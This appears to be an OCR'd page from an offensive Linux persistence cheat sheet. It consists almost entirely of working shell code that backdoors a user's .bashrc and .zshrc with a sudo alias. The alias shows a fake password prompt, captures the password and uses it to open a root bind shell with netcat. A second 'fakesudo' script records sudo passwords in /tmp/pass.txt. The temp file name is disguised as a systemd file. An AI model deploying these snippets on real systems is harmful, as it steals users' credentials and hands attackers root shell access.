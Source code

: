 backdoor in `.bash_rc` where a reverse shell is triggered whenever a user is using the `sudo` command.

```
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.zshrc
fi
rm /tmp/$TMPNAME2
```

Add the following line inside the user's `.bashrc` file to hijack the sudo command and write the content of the input into `/tmp/pass`.

``chmod u+x ~/.hidden/fakesudo
``echo "alias sudo=~/.hidden/fakesudo" >> ~/.bashrc

create the `fakesudo` script.

``read -sp "[sudo] password for $USER: " sudopass
``echo ""
``sleep 2
``echo "Sorry, try again."
``echo $sudopass >> /tmp/pass.txt
``/usr/bin/sudo $@

